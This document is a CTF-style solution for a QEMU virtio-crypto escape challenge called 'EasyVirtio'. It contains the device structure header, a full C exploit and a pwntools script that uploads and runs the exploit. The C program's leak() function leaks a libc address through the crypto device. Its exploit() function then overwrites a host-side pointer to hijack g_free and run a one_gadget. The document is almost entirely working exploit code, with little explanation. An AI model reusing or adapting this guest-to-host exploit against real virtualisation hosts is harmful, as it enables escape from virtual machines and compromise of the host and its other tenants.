#define VIRTIO_CRYPTO_SERVICE_MAC    2
/* AEAD (Authenticated Encryption with Associated Data) service */
#define VIRTIO_CRYPTO_SERVICE_AEAD   3

// algo
#define VIRTIO_CRYPTO_NO_CIPHER                 0
#define VIRTIO_CRYPTO_CIPHER_ARC4               1
#define VIRTIO_CRYPTO_CIPHER_AES_ECB            2
#define VIRTIO_CRYPTO_CIPHER_AES_CBC            3
#define VIRTIO_CRYPTO_CIPHER_AES_CTR            4
#define VIRTIO_CRYPTO_CIPHER_DES_ECB            5
#define VIRTIO_CRYPTO_CIPHER_DES_CBC            6
#define VIRTIO_CRYPTO_CIPHER_3DES_ECB           7
#define VIRTIO_CRYPTO_CIPHER_3DES_CBC           8
#define VIRTIO_CRYPTO_CIPHER_3DES_CTR           9
#define VIRTIO_CRYPTO_CIPHER_KASUMI_F8          10
#define VIRTIO_CRYPTO_CIPHER_SNOW3G_UEA2        11
#define VIRTIO_CRYPTO_CIPHER_AES_F8             12
#define VIRTIO_CRYPTO_CIPHER_AES_XTS            13
#define VIRTIO_CRYPTO_CIPHER_ZUC_EEA3           14

// key_len
#define AES_KEYSIZE_128 16
#define AES_KEYSIZE_192 24
#define AES_KEYSIZE_256 32
#define AES_KEYSIZE_128_XTS AES_KEYSIZE_256
#define AES_KEYSIZE_256_XTS 64

struct virtio_crypto_config {
    le32 status;
    le32 max_dataqueues;
    le32 crypto_services;
    /* Detailed algorithms mask */
    le32 cipher_algo_l;
    le32 cipher_algo_h;
    le32 hash_algo;
    le32 mac_algo_l;
    le32 mac_algo_h;
    le32 aead_algo;
    /* Maximum length of cipher key in bytes */
    le32 max_cipher_key_len;
    /* Maximum length of authenticated key in bytes */
    le32 max_auth_key_len;
    le32 reserved;
    /* Maximum size of each crypto request’s content in bytes */
    le64 max_size;
};

// Currently, only one status bit is defined: VIRTIO_CRYPTO_S_HW_READY
// set indicates that the device is ready to process requests,
// this bit is read-only for the driver
#define VIRTIO_CRYPTO_S_HW_READY  (1 << 0)

enum VIRTIO_CRYPTO_STATUS {
    VIRTIO_CRYPTO_OK = 0,
    VIRTIO_CRYPTO_ERR = 1,
    VIRTIO_CRYPTO_BADMSG = 2,
    VIRTIO_CRYPTO_NOTSUPP = 3,
    VIRTIO_CRYPTO_INVSESS = 4,
    VIRTIO_CRYPTO_NOSPC = 5,
    VIRTIO_CRYPTO_MAX
};

#define VIRTIO_CRYPTO_OPCODE(service, op)   (((service) << 8) | (op))

struct virtio_crypto_ctrl_header {
#define VIRTIO_CRYPTO_CIPHER_CREATE_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x02)
#define VIRTIO_CRYPTO_CIPHER_DESTROY_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x03)
#define VIRTIO_CRYPTO_HASH_CREATE_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_HASH, 0x02)
#define VIRTIO_CRYPTO_HASH_DESTROY_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_HASH, 0x03)
#define VIRTIO_CRYPTO_MAC_CREATE_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_MAC, 0x02)
#define VIRTIO_CRYPTO_MAC_DESTROY_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_MAC, 0x03)
#define VIRTIO_CRYPTO_AEAD_CREATE_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x02)
#define VIRTIO_CRYPTO_AEAD_DESTROY_SESSION \
       VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x03)
    le32 opcode;
    /* algo should be service-specific algorithms */
    le32 algo;
    le32 flag;
    le32 reserved;
};

struct virtio_crypto_cipher_session_flf {
    /* Device read only portion */

    /* See VIRTIO_CRYPTO_CIPHER* above */
    le32 algo;
    /* length of key */
    le32 key_len;
#define VIRTIO_CRYPTO_OP_ENCRYPT  1
#define VIRTIO_CRYPTO_OP_DECRYPT  2
    /* encryption or decryption */
    le32 op;
    le32 padding;
};

struct virtio_crypto_sym_create_session_flf {
    /* Device read only portion */

#define VIRTIO_CRYPTO_SYM_SESS_OP_SPEC_HDR_SIZE  48
    /* fixed length fields, opcode specific */
    union {
        struct virtio_crypto_cipher_session_flf cipher;
        u8 padding[VIRTIO_CRYPTO_SYM_SESS_OP_SPEC_HDR_SIZE];
    } op_flf;

/* No operation */
#define VIRTIO_CRYPTO_SYM_OP_NONE  0
/* Cipher only operation on the data */
#define VIRTIO_CRYPTO_SYM_OP_CIPHER  1
/* Chain any cipher with any hash or mac operation. The order
   depends on the value of alg_chain_order param */
#define VIRTIO_CRYPTO_SYM_OP_ALGORITHM_CHAINING  2
    le32 op_type;
    le32 padding;
};

struct virtio_crypto_cipher_session_vlf {
    /* Device read only portion */

    /* The cipher key */
    u8 cipher_key[AES_KEYSIZE_128];
};

struct virtio_crypto_create_session_input {
    le64 session_id;
    le32 status;
    le32 padding;
};

struct virtio_crypto_destroy_session_input {
    /* Device write only portion */
    u8  status;
};


struct virtio_crypto_op_ctrl_req {
    /* Device read only portion */

    struct virtio_crypto_ctrl_header header;

#define VIRTIO_CRYPTO_CTRLQ_OP_SPEC_HDR_LEGACY 56
    /* fixed length fields, opcode specific */
    union {
        struct virtio_crypto_sym_create_session_flf sym;
        u8 padding[VIRTIO_CRYPTO_CTRLQ_OP_SPEC_HDR_LEGACY];
    } op_flf;

    /* variable length fields, opcode specific */
    struct virtio_crypto_cipher_session_vlf op_vlf;

    /* Device write only portion */

    /* op result or completion status */
    union {
        struct virtio_crypto_create_session_input create;
        struct virtio_crypto_destroy_session_input destroy;
    } op_outcome;
};

struct virtio_crypto_op_header {
#define VIRTIO_CRYPTO_CIPHER_ENCRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x00)
#define VIRTIO_CRYPTO_CIPHER_DECRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_CIPHER, 0x01)
#define VIRTIO_CRYPTO_HASH \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_HASH, 0x00)
#define VIRTIO_CRYPTO_MAC \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_MAC, 0x00)
#define VIRTIO_CRYPTO_AEAD_ENCRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x00)
#define VIRTIO_CRYPTO_AEAD_DECRYPT \
    VIRTIO_CRYPTO_OPCODE(VIRTIO_CRYPTO_SERVICE_AEAD, 0x01)
    le32 opcode;
    /* algo should be service-specific algorithms */
    le32 algo;
    le64 session_id;
#define VIRTIO_CRYPTO_FLAG_SESSION_MODE 1
    /* control flag to control the request */
    le32 flag;
    le32 padding;
};

struct virtio_crypto_cipher_data_flf {
    /*
     * Byte Length of valid IV/Counter data pointed to by the below iv data.
     *
     * For block ciphers in CBC or F8 mode, or for Kasumi in F8 mode, or for
     *   SNOW3G in UEA2 mode, this is the length of the IV (which
     *   must be the same as the block length of the cipher).
     * For block ciphers in CTR mode, this is the length of the counter
     *   (which must be the same as the block length of the cipher).
     */
    le32 iv_len;
    /* length of source data */
    le32 src_data_len;
    /* length of destination data */
    le32 dst_data_len;
    le32 padding;
};

struct virtio_crypto_sym_data_flf {
    /* Device read only portion */

#define VIRTIO_CRYPTO_SYM_DATA_REQ_HDR_SIZE    40
    union {
        struct virtio_crypto_cipher_data_flf cipher;
        u8 padding[VIRTIO_CRYPTO_SYM_DATA_REQ_HDR_SIZE];
    } op_type_flf;

/* No operation */
#define VIRTIO_CRYPTO_SYM_OP_NONE  0
/* Cipher only operation on the data */
#define VIRTIO_CRYPTO_SYM_OP_CIPHER  1
/* Chain any cipher with any hash or mac operation. The order
   depends on the value of alg_chain_order param */
#define VIRTIO_CRYPTO_SYM_OP_ALGORITHM_CHAINING  2
    le32 op_type;
    le32 padding;
};

//struct virtio_crypto_cipher_data_vlf {
//    /* Device read only portion */
//
//    /*
//     * Initialization Vector or Counter data.
//     *
//     * For block ciphers in CBC or F8 mode, or for Kasumi in F8 mode, or for
//     *   SNOW3G in UEA2 mode, this is the Initialization Vector (IV)
//     *   value.
//     * For block ciphers in CTR mode, this is the counter.
//     * For AES-XTS, this is the 128bit tweak, i, from IEEE Std 1619-2007.
//     *
//     * The IV/Counter will be updated after every partial cryptographic
//     * operation.
//     */
//    u8 iv[];
//    /* Source data */
//    u8 src_data[];
//
//    /* Device write only portion */
//    /* Destination data */
//    u8 dst_data[];
//};

//struct virtio_crypto_sym_data_vlf {
//    struct virtio_crypto_cipher_data_vlf cipher_data_vlf;
//};

struct virtio_crypto_inhdr {
    u8 status;
};

struct virtio_crypto_op_data_req {
    /* Device read only portion */

    struct virtio_crypto_op_header header;

#define VIRTIO_CRYPTO_DATAQ_OP_SPEC_HDR_LEGACY 48
    /* fixed length fields, opcode specific */
    union {
        struct virtio_crypto_sym_data_flf sym;
        u8 padding[VIRTIO_CRYPTO_DATAQ_OP_SPEC_HDR_LEGACY];
    } op_flf;

    /* Device read && write portion */
    /* variable length fields, opcode specific */
    //struct virtio_crypto_sym_data_vlf sym_data_vlf;
    u8 sym_data_vlf[];

    /* Device write only portion */
    //struct virtio_crypto_inhdr inhdr;
};
```

## EasyVirtio_qemu.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

#include "EasyVirtio_qemu.exp.h"

#define PAGE_SHIFT      12
#define PAGE_SIZE       (1 << PAGE_SHIFT)
#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)

uint32_t page_offset(uint32_t addr) {
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | page_offset((uint64_t)addr);
}

void hex_dump32(void* buf, size_t len) {
    uint32_t *p = (uint32_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;
    if (len >= 0x10) {
        for (; (uint8_t *)(p+4) <= end; p+=4) {
            printf("0x%08x 0x%08x 0x%08x 0x%08x\n", p[0], p[1], p[2], p[3]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%08x 0x%08x ", p[0], p[1]);
        p += 2;
    }
    if (len % 8 >= 4) {
        printf("0x%08x ", p[0]);
        p += 1;
    }
    if (len % 4 > 0) {
        uint32_t tmp = 0;
        for (size_t i = len % 4; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%08x\n", tmp);
    }
}

void hex_dump64(void* buf, size_t len) {
    uint64_t *p = (uint64_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;

    puts("=====================================");
    if (len >= 0x10) {
        for (; (uint8_t *)(p+2) <= end; p+=2) {
            printf("0x%016lx 0x%016lx\n", p[0], p[1]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%016lx ", p[0]);
        if (len % 0x10 == 8) {
            putchar('\n');
            return;
        }
        p += 1;
    }
    if (len % 8 > 0) {
        uint64_t tmp = 0;
        for (size_t i = len % 8; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%016lx\n", tmp);
    }
    puts("=====================================");
}

#define mmio_write64(addr, val) (*(volatile uint64_t *)addr=val)
#define mmio_write32(addr, val) (*(volatile uint32_t *)addr=val)
#define mmio_write16(addr, val) (*(volatile uint16_t *)addr=val)
#define mmio_write8(addr, val)  (*(volatile uint8_t *)addr=val)
#define mmio_read64(addr)       (*(volatile uint64_t *)addr)
#define mmio_read32(addr)       (*(volatile uint32_t *)addr)
#define mmio_read16(addr)       (*(volatile uint16_t *)addr)
#define mmio_read8(addr)        (*(volatile uint8_t *)addr)

void *mmio_init(void *fixed, size_t size, const char *file) {
    void *mem = NULL;

    int mmio_fd = open(file, O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        perror("[-] failed to open mmio");
        exit(EXIT_FAILURE);
    }

    mem = mmap(fixed, size, PROT_READ|PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mem == MAP_FAILED) {
        perror("[-] failed to mmap mmio");
        exit(EXIT_FAILURE);
    }
    if (mlock(mem, size) == -1) {
        perror("[-] failed to mlock mmio_mem");
        exit(EXIT_FAILURE);
    }

    close(mmio_fd);
    return mem;
}

#define VIRTIO_CRYPTO_GVA 0xcafe000
#define VIRTIO_CRYPTO_GPA 0xfe000000

volatile uint8_t *virtio_mmio = NULL,
                 *virtio_notify_mmio = NULL;
volatile uint8_t *dma_data = NULL;
volatile uint8_t *ctrlq = NULL;
volatile uint8_t *dataq = NULL;
volatile uint64_t ctrlq_gpa = 0;
volatile uint64_t dataq_gpa = 0;

volatile struct virtio_pci_common_cfg *common_cfg = NULL;
volatile struct virtio_pci_notify_cap *notify_cap = NULL;
volatile struct virtio_crypto_config  *crypto_cfg = NULL;

volatile struct virtq_desc *queue_desc = NULL;
volatile struct virtq_avail *queue_avail = NULL;
volatile struct virtq_used *queue_used = NULL;
uint16_t notify_off = 0;
uint32_t notify_offset = 0;
uint64_t session_id = 0;

#define mb() {__asm__ volatile("mfence":::"memory");}

void print_cap(struct virtio_pci_cap* cap){
    puts("=====================================");
    switch(cap->cfg_type){
        case VIRTIO_PCI_CAP_COMMON_CFG:
            printf("cfg_type: common\n");
            break;
        case VIRTIO_PCI_CAP_NOTIFY_CFG:
            printf("cfg_type: notify\n");
            break;
        case VIRTIO_PCI_CAP_ISR_CFG:
            printf("cfg_type: isr\n");
            break;
        case VIRTIO_PCI_CAP_DEVICE_CFG:
            printf("cfg_type: device\n");
            break;
        case VIRTIO_PCI_CAP_PCI_CFG:
            printf("cfg_type: pci\n");
            break;
        default:
            printf("cfg_type: unknown %d\n", cap->cfg_type);
            break;
    }
    printf("cap_len: %x\tbar: %x\toffset: %x\tlength: %x\n",
            cap->cap_len, cap->bar, cap->offset, cap->length);
}

void print_crypto_cfg() {
    char *fmt = "\
struct virtio_crypto_config {\n \
    le32 status = 0x%x;\n \
    le32 max_dataqueues = 0x%x;\n \
    le32 crypto_services = 0x%x;\n \
    ...\n \
    le32 max_cipher_key_len = 0x%x;\n \
    le32 max_auth_key_len = 0x%x;\n \
    le64 max_size = 0x%lx;\n \
};\n";
    printf(fmt, crypto_cfg->status, crypto_cfg->max_dataqueues, crypto_cfg->crypto_services,
            crypto_cfg->max_cipher_key_len, crypto_cfg->max_auth_key_len, crypto_cfg->max_size);
}

void init_virtio() {
    virtio_mmio = mmio_init((void *)VIRTIO_CRYPTO_GVA, 0x4000, "/sys/devices/pci0000:00/0000:00:04.0/resource4");
    printf("[*] virtio_mmio: %p\n", virtio_mmio);

    struct virtio_pci_cap *cap = NULL;
    uint8_t *config = malloc(0x1000);
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/config", O_RDONLY);
    if(fd < 0){
        perror("[-] failed to open virtio-crypto config");
        exit(EXIT_FAILURE);
    }
    int bytes_read = read(fd, config, 0x1000);
    if(bytes_read <= 0){
        perror("[-] failed to read virtio-crypto config");
        exit(EXIT_FAILURE);
    }
    close(fd);

    uint8_t cap_ptr = config[0x34];
    while(cap_ptr != 0){
        if(config[cap_ptr] != 0x9) { // vndr
            cap_ptr = config[cap_ptr+1]; // next
            continue;
        }
        cap = (struct virtio_pci_cap *)&config[cap_ptr];
        //print_cap(cap);
        switch(cap->cfg_type){
            case VIRTIO_PCI_CAP_COMMON_CFG:
                common_cfg = (struct virtio_pci_common_cfg *)(virtio_mmio + cap->offset);
                printf("[*] common_cfg: %p\n", common_cfg);
                break;
            case VIRTIO_PCI_CAP_NOTIFY_CFG:
                virtio_notify_mmio = virtio_mmio + cap->offset;
                notify_cap = (struct virtio_pci_notify_cap *)virtio_notify_mmio;
                printf("[*] virtio_notify_mmio: %p\n", virtio_notify_mmio);
                break;
            case VIRTIO_PCI_CAP_DEVICE_CFG:
                crypto_cfg = (struct virtio_crypto_config *)(virtio_mmio + cap->offset);
                printf("[*] crypto_cfg: %p\n", crypto_cfg);
                print_crypto_cfg();
            default:
                break;
        }
        cap_ptr = cap->cap_next;
    }
    free(config);
    config = NULL;

    // dma memory for virtqueues
    dataq = mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((uint8_t *)dataq, 0, 0x1000);
    mlock((uint8_t *)dataq, 0x1000);
    dataq_gpa =  gva_to_gpa((void *)dataq);
    printf("[*] dataq: %p (%p)\n", dataq, (void *)dataq_gpa);

    ctrlq = mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((uint8_t *)ctrlq, 0, 0x1000);
    mlock((uint8_t *)ctrlq, 0x1000);
    ctrlq_gpa =  gva_to_gpa((void *)ctrlq);
    printf("[*] ctrlq: %p (%p)\n", ctrlq, (void *)ctrlq_gpa);

    dma_data = mmap(0, 0x1000,  PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((uint8_t *)dma_data, 0, 0x1000);
    mlock((uint8_t *)dma_data, 0x1000);
    printf("[*] dma_data: %p (%p)\n", dma_data, (void *)gva_to_gpa((void *)dma_data));

}

void reset_device(uint32_t sess_op) {
    /* reset device */
    uint8_t device_status = 0;

    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    mmio_write32(&common_cfg->driver_feature_select, 0);
    mmio_write32(&common_cfg->driver_feature, 0); // disable all features
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // 6. init queue
    mmio_write16(&common_cfg->queue_select, 0); // dataq
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc, dataq_gpa);
    mmio_write32(&common_cfg->queue_driver, dataq_gpa + 0x100);
    mmio_write32(&common_cfg->queue_device, dataq_gpa + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    mmio_write16(&common_cfg->queue_select, crypto_cfg->max_dataqueues); // controlq
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc, ctrlq_gpa);
    mmio_write32(&common_cfg->queue_driver, ctrlq_gpa + 0x100);
    mmio_write32(&common_cfg->queue_device, ctrlq_gpa + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    /* Create session */
    memset((uint8_t *)dma_data, 0, 0x1000);
    struct virtio_crypto_op_ctrl_req *ctrl_req = (struct virtio_crypto_op_ctrl_req *)dma_data;
    ctrl_req->header.opcode = VIRTIO_CRYPTO_CIPHER_CREATE_SESSION;
    ctrl_req->op_flf.sym.op_type = VIRTIO_CRYPTO_SYM_OP_CIPHER;
    ctrl_req->op_flf.sym.op_flf.cipher.algo = VIRTIO_CRYPTO_CIPHER_AES_ECB;
    ctrl_req->op_flf.sym.op_flf.cipher.key_len = AES_KEYSIZE_128;
    ctrl_req->op_flf.sym.op_flf.cipher.op = sess_op;
    memset(&ctrl_req->op_vlf.cipher_key, 0, AES_KEYSIZE_128);

    memset((uint8_t *)ctrlq, 0, 0x1000);
    queue_desc = (struct virtq_desc *)ctrlq;
    queue_avail = (struct virtq_avail *)((uint8_t *)ctrlq + 0x100);
    queue_used = (struct virtq_used *)((uint8_t *)ctrlq + 0x200);

    uint64_t p = gva_to_gpa(ctrl_req);
    size_t idx = 0;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_ctrl_header);
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += sizeof(struct virtio_crypto_ctrl_header);
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = VIRTIO_CRYPTO_CTRLQ_OP_SPEC_HDR_LEGACY;
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += VIRTIO_CRYPTO_CTRLQ_OP_SPEC_HDR_LEGACY;
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = AES_KEYSIZE_128;
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += AES_KEYSIZE_128;
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_create_session_input);
    queue_desc[idx].flags = VIRTQ_DESC_F_WRITE;
    queue_desc[idx].next = 0;
    p += sizeof(struct virtio_crypto_create_session_input);
    idx++;

    queue_avail->ring[0] = 0;
    queue_avail->idx = 1;
    queue_avail->flags = VIRTQ_AVAIL_F_NO_INTERRUPT;
    mb();

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(ctrl_req->op_outcome.create.status == VIRTIO_CRYPTO_OK);
    session_id = ctrl_req->op_outcome.create.session_id;
    printf("[+] Create session: id %lx\n",
            ctrl_req->op_outcome.create.session_id); // no use???
}

uint8_t* cipher_op(uint32_t sess_id, uint16_t avail_idx, uint32_t opcode, uint8_t *iv, uint32_t iv_len,
        uint8_t *src, uint32_t src_len, uint32_t dst_len) {
    memset((uint8_t *)dma_data, 0, 0x1000);

    struct virtio_crypto_op_data_req *data_req = (struct virtio_crypto_op_data_req *)(dma_data+0x100);
    data_req->header.opcode = opcode;
    data_req->header.session_id = sess_id;
    data_req->op_flf.sym.op_type = VIRTIO_CRYPTO_SYM_OP_CIPHER;
    data_req->op_flf.sym.op_type_flf.cipher.iv_len = iv_len;
    data_req->op_flf.sym.op_type_flf.cipher.src_data_len = src_len;
    data_req->op_flf.sym.op_type_flf.cipher.dst_data_len = dst_len;

    queue_desc = (struct virtq_desc *)dataq;
    queue_avail = (struct virtq_avail *)((uint8_t *)dataq + 0x100);
    queue_used = (struct virtq_used *)((uint8_t *)dataq + 0x200);

    uint64_t p = gva_to_gpa(data_req);
    size_t idx = 0;
    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_op_header);
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += sizeof(struct virtio_crypto_op_header);
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = VIRTIO_CRYPTO_DATAQ_OP_SPEC_HDR_LEGACY;
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
    queue_desc[idx].next = idx+1;
    p += VIRTIO_CRYPTO_DATAQ_OP_SPEC_HDR_LEGACY;
    idx++;

    if (iv_len > 0) {
        memcpy(&(data_req->sym_data_vlf), iv, iv_len);
        queue_desc[idx].addr = p;
        queue_desc[idx].len = iv_len; // iv
        queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
        queue_desc[idx].next = idx+1;
        p += iv_len;
        idx++;
    }

    if (src_len > 0) {
        memcpy((uint8_t *)&(data_req->sym_data_vlf) + iv_len, src, src_len);
        queue_desc[idx].addr = p;
        queue_desc[idx].len = src_len; // src_data
        queue_desc[idx].flags = VIRTQ_DESC_F_NEXT;
        queue_desc[idx].next = idx+1;
        p += src_len;
        idx++;
    }

    queue_desc[idx].addr = p;
    queue_desc[idx].len = src_len; // dst_data
    queue_desc[idx].flags = VIRTQ_DESC_F_NEXT|VIRTQ_DESC_F_WRITE;
    queue_desc[idx].next = idx+1;
    p += src_len;
    idx++;

    queue_desc[idx].addr = p;
    queue_desc[idx].len = sizeof(struct virtio_crypto_inhdr);
    queue_desc[idx].flags = VIRTQ_DESC_F_WRITE;
    queue_desc[idx].next = 0;

    queue_avail->ring[avail_idx] = 0;
    queue_avail->idx = avail_idx+1;
    queue_avail->flags = VIRTQ_AVAIL_F_NO_INTERRUPT;
    mb();

    assert(mmio_read8(&crypto_cfg->status) & VIRTIO_CRYPTO_S_HW_READY);
    notify_off = mmio_read16(&common_cfg->queue_notify_off);
    notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    return (uint8_t *)&(data_req->sym_data_vlf) + iv_len + src_len;
}

void leak() {
    uint8_t *src = (uint8_t *)calloc(0x100, sizeof(uint8_t));
    uint8_t *dst = NULL;

    reset_device(VIRTIO_CRYPTO_OP_ENCRYPT);

    dst = cipher_op(0xaa, 0, VIRTIO_CRYPTO_CIPHER_ENCRYPT, NULL, 0, src, 0x20, 0x10);
    hex_dump64(dst, 0x20);

    uint64_t libc_base = *(uint64_t *)(dst+0x10) - 0x562d50;
    uint64_t ogg = libc_base + 0xebce2;
    printf("[+] libc_base: %p\n", (void *)libc_base);

    memset(src, 0, 0x100);
    memcpy(src, dst, 0x20);
    *(uint64_t *)(src+0x10) = ogg;
    hex_dump64(src, 0x20);

    dst = cipher_op(0, 1, VIRTIO_CRYPTO_CIPHER_ENCRYPT, NULL, 0, src, 0x20, 0x20);
    hex_dump64(dst, 0x20);

    int fd = -1;
    fd = open("/tmp/payload", O_RDWR|O_CREAT|O_TRUNC, S_IRUSR|S_IWUSR);
    write(fd, dst, 0x20);
    close(fd);
}

void exploit() {
    uint8_t *src = (uint8_t *)calloc(0x100, sizeof(uint8_t));

    reset_device(VIRTIO_CRYPTO_OP_DECRYPT);

    // hijack g_free
    int fd = -1;
    fd = open("/tmp/payload", O_RDWR);
    read(fd, src, 0x20);
    close(fd);

    cipher_op(1, 0, VIRTIO_CRYPTO_CIPHER_DECRYPT, NULL, 0, src, 0x20, 0x10);
}

int main(int argc, char* argv[]) {
    init_virtio();

    if (argc < 2) {
        printf("Usage: %s [leak|exploit]\n", argv[0]);
    } else if (!strcmp(argv[1], "leak")) {
        leak();
    } else if (!strcmp(argv[1], "exploit")) {
        exploit();
    } else {
        printf("Usage: %s [leak|exploit]\n", argv[0]);
    }

    munmap((void *)dataq, 0x1000);
    munmap((void *)ctrlq, 0x1000);
    munmap((void *)dma_data, 0x1000);
    munmap((void *)virtio_mmio, 0x4000);
    return 0;
}
```

编译指令：

```bash
musl-gcc -static -Os -o rootfs/exp ./EasyVirtio_qemu.exp.c
```

## EasyVirtio.qemu.py

```python
from pwn import *
import base64
import os

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def send_file(src, dst):
    exp = None
    with open(src, "rb") as f:
        exp = base64.b64encode(f.read())
    for i in range(0, len(exp), 0x200):
        sla("~ # ", "echo -n \"" + exp[i:i+0x200].decode() + "\" >> /tmp/b64_exp")
    sl("cat /tmp/b64_exp | base64 -d > " + dst)

def conn(local=1):
    global p
    if local == 1:
        os.system("cd rootfs && find . | cpio -o --format=newc > ../initramfs.cpio.gz && cd --")
        pc = './run.sh'
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        p = process(pc,aslr=aslr)
    else:
        remote_addr = ['127.0.0.1', 9999]
        p = remote(remote_addr[0], remote_addr[1])
        send_file("./rootfs/exp", "/tmp/exp")

if __name__ == "__main__":
    #os.system("musl-gcc -static -Os -o rootfs/exp ./EasyVirtio_qemu.exp.c")
    conn(0)
    sl("chmod +x /tmp/exp")
    sl("/tmp/exp leak")
    sl("/tmp/exp exploit")

    p.interactive()
```